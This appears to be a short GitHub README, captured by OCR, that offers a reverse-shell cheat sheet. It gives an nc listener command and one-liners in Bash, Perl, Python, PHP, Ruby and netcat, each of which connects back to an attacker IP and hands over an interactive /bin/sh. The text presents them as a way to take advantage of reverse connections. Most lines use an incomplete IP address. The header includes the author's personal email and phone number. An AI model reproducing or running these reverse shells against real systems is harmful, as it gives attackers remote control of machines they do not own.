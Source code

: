 Date : 08/06/2020
Made By : Ashutosh kumar gautam 
Contact me : ashutoshkumargautam@protonmail.com
Phone number : 7217723683
Blog : Www.suggestmeindia.in
--------------------------------------------------------
# Advance-Reveresh-connection-programs
This project for reversh connection program this will help to understand how you can take reversh connection advantage with programming.
--------------------------------------------------------------------------------------------------------------------------------
The following examples assums the hacker IP is 10.20.14 and use port 8080 for the connection.
Therefore in all f these cases you need to listen for port 8080 using the foolowing command
nc -vv -l -p 8080


BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1

PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'

Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

Netcat
nc -e /bin/sh 10.20.14 8080

Thank you 

Made by : Ashutosh kumar gautam 
